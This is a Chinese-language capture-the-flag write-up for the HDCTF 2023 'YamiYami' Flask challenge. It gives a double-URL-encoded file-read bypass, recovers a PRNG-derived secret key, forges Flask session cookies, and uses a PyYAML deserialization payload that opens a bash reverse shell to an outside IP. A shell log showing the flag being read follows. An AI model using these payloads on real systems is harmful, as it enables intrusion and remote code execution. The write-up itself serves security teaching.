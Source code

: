 #  [HDCTF 2023]YamiYami 复现

## 0、知识点

>   python伪随机数

>   Session伪造

>   任意文件读取

>   Pyyaml反序列化



## 解题

-   打开题目主页可以发现存在三个地址

    -   `href="/read?url=https://baidu.com"`
        -   根据地址名read猜测可以读文件，url可以联想到SSRF，进而可以尝试是否存在任意文件读取
    -   `href="/upload"`
    -   `href="/pwd"`
        -   打开 会显示一个路径`/app`

-   由于可能存在任意文件读取，那么就可以尝试读取源码

-   使用`file:///app.py`

    -   发现存在过滤返回：`re.findall('app.*', url, re.IGNORECASE)`
    -   **绕过方式双重URL编码绕过**

-   绕过后并未发现源码，想起pwd显示的路径

    -   最终playload

    -   ```nginx
        http://node2.anna.nssctf.cn:28636/read?url=file:///%25%36%31%25%37%30%25%37%30/%25%36%31%25%37%30%25%37%30.py
        ```

>   获取到源码

```python
encoding:utf-8
import os
import re, random, uuid
from flask import *
from werkzeug.utils import *
import yaml
from urllib.request import urlopen
app = Flask(__name__)


'''
    # UUID 的第一个版本的值是基于主机的 MAC 地址来计算的
    # uuid 模块使用 getnode() 来获取当前系统的 MAC 地址值
    # 如果一个系统的网卡不止一块，那么就有多个 MAC 地址，因此返回的值可能是其中的任意一个。
    # uuid.getnode()返回的值是Mac值的16进制形式，但是去掉了中间的冒号
    if __name__ == '__main__':
        random.seed(0x0242ac024cce)
        print(str(random.random() * 233))
'''
random.seed(uuid.getnode())
app.config['SECRET_KEY'] = str(random.random()*233)
app.debug = False
# 黑名单
BLACK_LIST=["yaml","YAML","YML","yml","yamiyami"]

# 文件上传的位置
app.config['UPLOAD_FOLDER']="/app/uploads"

@app.route('/')
def index():
    session['passport'] = 'YamiYami'
    return '''
    Welcome to HDCTF2023 <a href="/read?url=https://baidu.com">Read somethings</a>
    <br>
    Here is the challenge <a href="/upload">Upload file</a>
    <br>
    Enjoy it <a href="/pwd">pwd</a>
    '''
@app.route('/pwd')
def pwd():
    return str(pwdpath)
@app.route('/read')
def read():
    try:
        url = request.args.get('url')
        m = re.findall('app.*', url, re.IGNORECASE)
        n = re.findall('flag', url, re.IGNORECASE)
        if m:
            return "re.findall('app.*', url, re.IGNORECASE)"
        if n:
            return "re.findall('flag', url, re.IGNORECASE)"
        res = urlopen(url)
        return res.read()
    except Exception as ex:
        print(str(ex))
    return 'no response'

def allowed_file(filename):
  	for blackstr in BLACK_LIST:
        if blackstr in filename:
           	return False
   	return True
@app.route('/upload', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        if 'file' not in request.files:
            flash('No file part')
            return redirect(request.url)
        file = request.files['file']
        if file.filename == '':
            return "Empty file"
        if file and allowed_file(file.filename):
            filename = secure_filename(file.filename)
            if not os.path.exists('./uploads/'):
                os.makedirs('./uploads/')
            file.save(os.path.join(app.config['UPLOAD_FOLDER'], filename))
            return "upload successfully!"
    return render_template("index.html")
@app.route('/boogipop')
def load():
    if session.get("passport")=="Welcome To HDCTF2023":

        LoadedFile=request.args.get("file")
        # 判断文件是否存在
        if not os.path.exists(LoadedFile):
            return "file not exists"
        # with as 用来处理文件内容
        with open(LoadedFile) as f:
            # yaml.full_load() 将YAML 格式的字符串或文件加载成Python 对象
            yaml.full_load(f)
            f.close()
        return "van you see"
    else:
        return "No Auth bro"
if __name__=='__main__':
    pwdpath = os.popen("pwd").read()
    app.run(
        debug=False,
        host="0.0.0.0"
    )
    print(app.config['SECRET_KEY'])
```

>   分析后得出，首先需要进行session伪造 -> `if session.get("passport")=="Welcome To HDCTF2023":`

>   怎么进行session伪造查看这篇文章：https://cbatl.gitee.io/2020/11/15/Flask-session/

>   但伪造session的前提是需要知道：`SECRET_KEY`，
>
>   这个参数值主要是由这里生成的`random.seed(uuid.getnode())`
>
>   `uuid.getnode():`返回的值是Mac值的16进制形式，但是去掉了中间的冒号

>   linux的网卡地址在：`/sys/class/net/eth0/addres`中

>   读取网卡的值：02:42:ac:02:4d:ad，然后使用以下脚本计数SECRET_KEY`值

```py
import random

if __name__ == '__main__':
    random.seed(0x0242ac024dad)
    print(str(random.random() * 233))
   	# 结果：132.76992396847822
```

>   然后进行伪造使用命令

```nginx
python3.9 flask_session_cookie_manager3.py decode -c "eyJwYXNzcG9ydCI6IllhbWlZYW1pIn0.ZEiQZA.MxDCX2hJb-pvOeb7T3U48RhsrtI" -s "132.76992396847822"
# 结果为：{'passport': 'YamiYami'}
```

```nginx
python3.9 flask_session_cookie_manager3.py encode -t "{'passport': 'Welcome To HDCTF2023'}" -s  "132.76992396847822"
# 结果为：eyJwYXNzcG9ydCI6IldlbGNvbWUgVG8gSERDVEYyMDIzIn0.ZEiSkQ.UJ6u_SeyNSd2dTKGE0yuBEROShs
```

>   然后将得到值替换掉当前的session值

>   然后就是pyyaml的反序列，看了下出题人的payload，使用了反弹shell

```yaml
!!python/object/new:str
    args: []
    state: !!python/tuple
      - "__import__('os').system('bash -c \"bash -i >& /dev/tcp/113.124.234.43/1999 <&1\"')"
      - !!python/object/new:staticmethod
        args: []
        state:
          update: !!python/name:eval
          items: !!python/name:list
```

>   上传成功后去访问这个文件：`http://node2.anna.nssctf.cn:28809/boogipop?file=uploads/a.txt`
>
>   注意：访问之前先在自己的服务器上开好监听

```nginx
ctf@1571cd151b304d31:/app$ ls
app.py
requirements.txt
start.sh
static
templates
uploads
ctf@1571cd151b304d31:/app$ cd /
ctf@1571cd151b304d31:/$ ls
ls
flag.sh
ctf@1571cd151b304d31:/$ cat flag.sh
echo $FLAG > /tmp/flag_13_114514
ctf@1571cd151b304d31:/$ cd /tmp
ctf@1571cd151b304d31:/tmp$ ls
flag_13_114514
ctf@1571cd151b304d31:/tmp$ cat fla*
cat fla*
NSSCTF{a04b7ddb-f2a3-4d80-ba21-d3c2603d84ee}
ctf@1571cd151b304d31:/tmp$ 
```



>   **另外这题还有一个非预期解**

>   **直接使用file协议读取环境变量值 就可以拿到flag**：`file:///proc/1/environ`
